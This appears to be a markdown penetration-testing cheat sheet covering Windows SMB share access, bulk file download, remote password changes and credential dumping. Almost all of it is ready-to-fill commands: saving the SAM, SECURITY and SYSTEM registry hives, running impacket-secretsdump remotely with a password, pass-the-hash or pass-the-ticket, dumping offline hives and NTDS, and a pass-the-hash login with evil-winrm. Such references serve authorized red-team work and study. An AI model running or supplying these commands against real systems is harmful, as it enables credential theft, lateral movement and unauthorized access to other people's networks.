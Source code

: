 #### Access to share
```
Command : smbclient -U <user> \\\\<ip/domain>\\<share>
```

#### Get all file
```
Command: recurse on
Command: prompt off
Command: mget *
```

#### Change password remote
 ```
 Command : smbpasswd -r <ip/domain> -U "<user>"
 ```

## SAM and LSA

### Tools

- impacket-secretsdump

### Dump SAM and LSA
```
Command : reg save HKLM\SAM "C:\Windows\Temp\sam.save"
Command : reg save HKLM\SECURITY "C:\Windows\Temp\security.save"
Command : reg save HKLM\SYSTEM "C:\Windows\Temp\system.save"
```

#### Dump SAM and LSA w/ impacket-secretsdump

Remote dumping of SAM & LSA secrets
```
Command : impacket-secretsdump "<domain>/<user>:<password>@<ip/domain>"
```
Remote dumping of SAM & LSA secrets (pass-the-hash)
```
Command : impacket-secretsdump -hashes "LMhash:NThash" "<domain>/<user>@<ip/domain>"
```
Remote dumping of SAM & LSA secrets (pass-the-ticket)
```
Command : impacket-secretsdump -k "<domain>/<user>@<ip/domain>"
```
Offline dumping of LSA secrets from exported hives
```
Command : impacket-secretsdump -security "<path to security.save>" -system "<path to system.save>" LOCAL
```
Offline dumping of SAM secrets from exported hives
```
Command : impacket-secretsdump -sam "<path to sam.save>" -system "<path to system.save>" LOCAL
```
Offline dumping of SAM, LSA secrets and NTDS from exported hives
```
Command : impacket-secretsdump -sam "<path to sam.save>" -security "<path to security.save>" -system "<path to system.save>" -ntds "<path to ntds.dit>" LOCAL
```
#### Pass the hash
```
Command: evil-winrm -i <ip> -u <user> -H <ntlm hash>
```
